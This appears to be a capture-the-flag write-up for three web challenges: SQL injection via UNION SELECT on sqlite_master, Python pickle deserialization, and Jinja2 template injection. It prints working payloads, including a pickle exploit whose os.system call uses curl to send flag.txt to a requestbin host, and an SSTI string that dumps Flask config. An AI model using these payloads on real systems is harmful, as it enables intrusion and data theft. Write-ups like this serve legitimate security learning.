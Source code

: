 This tells me there is a funny table besides the achievement

So I need to know what to select 

Sql:

```
qqqqqqq'   UNION  SELECT sql FROM  sqlite_master   WHERE type!='meta'    AND    sql NOT    NULL   AND    name='redacted' AND    '1'!='(there is a % at the end)
```

This tells me what to select from the table 

Then just get the flag

```
qqqqqqq'   UNION  SELECT redacted   from   redacted   where  redacted    like'
```

## Deserialization

traditional pickle deserialization vul.

when deserialization, python will automatically exec funcitons like `__reduce__`, which gives the way for us to exec code directly on the server side.

the injection point is in the cookie content part, user can easily change request by firefox to insert your exp code.

Here is the exp.

```
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ("curl https://requestbin.net/r/2uw7m1eo/`cat flag.txt`")
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

here use curl to send request out to get information is a common trick in web.

## masterecho

it is also a traditional question from other competition.

SSTI vul with black list filter.

here is the good writeup from @hozy

The HTML document has a comment about src being a folder, so I access
http://cityf01.cs.cityu.edu.hk:30005/src, which returned the Python code for the
Flask app serving the site.
This Flask app used jinja2 to render the username in a way that is open to
injections. Since the config and self are set to None beforehand, I tried other
Flask objects available to the evaluating context. I even tried `{{__globals__}}`
In the end I found nothing, so I googled and came across a blog post on this
exact problem. Turned out I can use `url_for` function of Flask, from which
accessing `__globals__` is straightforward.
The payload is then just `{{url_for.__globals__['current_app'].config}}` .
